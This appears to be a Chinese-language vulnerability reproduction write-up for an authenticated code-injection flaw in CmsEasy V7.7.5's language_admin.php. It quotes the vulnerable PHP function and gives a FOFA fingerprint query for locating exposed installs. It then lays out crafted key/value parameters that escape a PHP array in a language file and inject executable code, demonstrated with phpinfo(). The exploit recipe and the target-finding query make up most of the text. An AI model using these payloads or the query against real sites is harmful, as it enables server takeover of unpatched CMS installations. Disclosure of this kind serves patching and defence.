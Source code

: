 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 影响版本

```
CmsEasy V7.7.5_20210919
```

## FOFA

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181433140.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![image-20220518143419336](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181434423.png)

```
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![image-20220518143447023](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181434089.png)

其中参数有三个，分别为 `key , cnnote, val`

![image-20220518143502867](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181435903.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```
test1  test2  test3);
```

写入后文件内容

```
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```
test4  ,test5, 	,phpinfo());/*
```

![image-20220518143515689](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181435729.png)

写入后文件内容

![image-20220518143533909](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181435970.png)

访问文件 `/lang/cn/system_custom.php`

![image-20220518143552076](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181435144.png)